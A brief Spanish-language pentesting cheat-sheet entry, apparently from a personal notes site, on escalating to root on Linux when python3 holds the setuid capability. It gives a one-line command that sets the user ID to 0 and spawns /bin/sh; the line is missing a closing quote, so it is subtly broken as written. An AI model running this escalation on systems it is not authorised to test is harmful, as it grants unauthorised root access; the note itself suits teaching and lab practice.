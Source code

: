 ```yaml
---
title: "Capabilities"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/capabilities"
date: "2025-09-30"
---
```


### Capabilities
#### Capability Setuid en python
si encontramos que python3 tiene la capability de setuid. con esta capability podemos ejecutar una shell cambiando la uid del usuario actual por "0" que es la de root.

```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh)'
```
